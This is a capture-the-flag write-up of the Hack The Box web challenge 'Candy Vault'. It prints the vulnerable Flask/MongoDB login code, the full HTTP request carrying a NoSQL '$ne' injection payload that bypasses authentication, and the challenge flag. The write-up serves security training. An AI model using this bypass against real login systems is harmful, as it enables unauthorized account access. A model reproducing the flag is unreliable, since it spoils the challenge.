 ```yaml
---
title: Candy Vault
date: 2025-01-31
author: Flavien
draft: false
tags:
  - CTF
  - HTB
  - Challenge
  - Web
  - Veasy
  - NoSQL
categories:
  - Writeup
  - Challenge
  - Web
description: HTB writeup for the very easy web challenge "Candy Vault"
summary: A concise walkthrough of the very easy Hack The Box challenge "Candy vault". Use
---
```

```
The malevolent spirits have concealed all the Halloween treats within their secret vault, and it's imperative that you decipher its enigmatic seal to reclaim the candy before the spooky night arrives.
```

==> For this challenge we get a url as well as the source code, and going to the website we are met by a single login page. --> checking the source code we see this:

```python
from flask import Flask, Blueprint, render_template, redirect, jsonify, request
from flask_bcrypt import Bcrypt
from pymongo import MongoClient

app = Flask(__name__)
app.config.from_object("application.config.Config")
bcrypt = Bcrypt(app)

client = MongoClient(app.config["MONGO_URI"])
db = client[app.config["DB_NAME"]]
users_collection = db["users"]

@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]
    
    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")


@app.route("/login", methods=["POST"])
def login():
    content_type = request.headers.get("Content-Type")

    if content_type == "application/x-www-form-urlencoded":
        email = request.form.get("email")
        password = request.form.get("password")

    elif content_type == "application/json":
        data = request.get_json()
        email = data.get("email")
        password = data.get("password")
    
    else:
        return jsonify({"error": "Unsupported Content-Type"}), 400

    user = users_collection.find_one({"email": email, "password": password})

    if user:
        return render_template("candy.html", flag=open("flag.txt").read())
    else:
        return redirect("/")
```

where we see that it is using a `MongoDB`database and checking if we are found before logging us in and displaying the flag -->it is vulnerable to a `NoSQL`injection!! (See [this](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) for payloads)

==> We can capture the request in `BurpSuite`and send a request to get the flag:

```http
POST /login HTTP/1.1
Host: 94.237.50.242:42794
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 57
Origin: http://94.237.50.242:42794
Connection: keep-alive
Referer: http://94.237.50.242:42794/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

{
	"email":{"$ne": null},
	"password":{"$ne":null"}
}
```

which logs us in and gets us the flag:

==> **`HTB{s4y_h1_t0_th3_c4andy_v4u1t!}`**